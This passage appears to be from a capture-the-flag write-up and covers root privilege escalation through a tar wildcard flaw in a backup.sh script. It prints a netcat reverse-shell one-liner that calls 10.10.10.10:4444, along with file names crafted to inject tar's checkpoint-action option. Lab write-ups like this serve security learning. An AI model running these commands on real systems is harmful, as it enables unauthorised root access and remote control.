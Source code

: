 linPEAS didn’t help me this time and I had to read another write up... Apparently we can use the [backup.sh](http://backup.sh) script, as it creates a backup of a directory using tar, and there is a vulnerability of tar we can take advantage of ([https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/))

So, we had to execute this code (with www-data user):

```jsx
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4444 >/tmp/f" > shell.sh 
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh" 
touch "/var/www/html/--checkpoint=1"
```

![Untitled](images/Untitled%2050.png)

Open a netcat listener and wait for the root console:

![Untitled](images/Untitled%2051.png)

Aaaand done.